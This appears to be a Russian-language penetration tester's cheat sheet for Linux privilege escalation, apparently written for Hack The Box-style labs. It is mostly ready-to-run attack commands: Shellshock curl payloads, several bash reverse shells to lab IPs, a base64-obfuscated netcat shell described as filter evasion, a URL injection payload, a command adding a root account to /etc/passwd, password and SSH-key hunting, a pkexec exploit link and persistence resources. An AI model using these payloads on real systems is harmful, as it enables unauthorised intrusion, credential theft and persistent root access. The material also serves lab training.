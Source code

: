 # pspy для поиска процессов

        wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
        scp pspy64 rebecca_smith@sorcery.htb:/tmp/pspy64

# Скрипты повышения привелегий 

        https://github.com/rebootuser/LinEnum

        https://github.com/rebootuser/LinEnum.git

        https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

        wget https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh | sh

# enumeration

дистрибутив;

        cat /etc/issue
        cat /etc/*-release

версия ядра и разрядность;
       
        cat /proc/version
        uname -a

сетевые интерфейсы, порты, службы;
        
        netstat
        ss -tulpn

процессы
       
        ps aux
        ps -ef
        pspy64 (Надо скачивать)

        https://github.com/DominicBreuker/pspy

        wget https://github.com/DominicBreuker/pspy/releases/download/v1.0.0/pspy64s       

Файлы, которые стоит проверить

        /home/user/.bash_history
        /home/user/password.txt
        /home/user/.history
        /home/user/.mysql_history
        /home/user/.ssh/id_rsa

# Разрешенные пермишены

        Sudo -l

        getcap -r / 2>/dev/null


        
curl -H "User-Agent: () { :;}; echo; /bin/sudo -l" http://10.8.0.10/cgi-bin/shell.sh

curl -H "User-Agent: () { :; }; echo; /bin/bash -i >& /dev/tcp/10.8.0.4/1234 0>&1" http://10.8.0.10/cgi-bin/shell.sh


http://localhost.com/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.14.61/4242 0>&1"`'}

bash -c "bash -i >& /dev/tcp/10.10.14.50/4444 0>&1"

/bin/bash -c 'bash -i >& /dev/tcp/192.168.50.123/4444 0>&1'

echo "system(\"bash -c 'bash -i >& /dev/tcp/10.10.14.50/4444 0>&1'\")" > file.plt

echo bmMgMTkyLjE2OC41MC4xMjMgNDQ0NCAtZSAvYmluL2Jhc2gK | base64 -d | bash   (обход фильтрации)



https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php   (Лучший PHP)

https://www.revshells.com/


# Повысить до tty интелектуальной оболочки командой 

python3 -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm

/bin/bash -p - это команда запуска интерпретатора командной строки Bash с флагом -p, который означает "privileged mode" (привилегированный режим).

# Найти файлы владельцем которого является группа

        find / -group bugtracker 2>/dev/null

# Найти файлы владельцем которого является пользователь
        find / -type f -user emily 2>/dev/null
# Найти все файлы с пермишеном S

        find / -user root -perm -4000 -exec ls -ldb {} \;

        find / -user root -perm -u=s -type f 2>/dev/null

        find / -perm -u=s 2>/dev/null
# найти файл по имени

        find / -name "mysql*"

# ПОИСК ПАРОЛЕЙ

        cat * | grep -i passw*

        grep -r "passw".

        grep -rni 'enter_network' (поиск везде от текущей)

        for i in $(grep -oP "('.*?')" -R . --no-filename);do x=$(echo -n $i | ent| grep Entropy| awk '{print $3}' ); echo "$x $i"; done | sort -n

(поиск всего, заключенного в  '   ' особенно для паролей с применением ентропии)

        grep -E '[A-Z]{1,9}[-_][a-z]{1,9}' -R .




# pkexec EXPLOIT

Как понять, подвержены ли ваши дистрибутивы уязвимости pkexec:

whereis pkexec

which pkexec

ls -la /usr/bin/pkexec

find / -type f -name pkexec

poc - https://github.com/arthepsy/CVE-2021-4034

# Полезные комманды Линукс

        https://putty.org.ru/articles/unix-linux-ref

# открыть gui 
        open .

# Добавление пользователя с правами root в /etc/passwd

        echo "boot:$(openssl passwd -6 -salt boot password123):0:0:boot:/root:/bin/bash" >> /etc/passwd

# Закрепление в системе

        https://habr.com/ru/articles/568298/
        https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Persistence.md
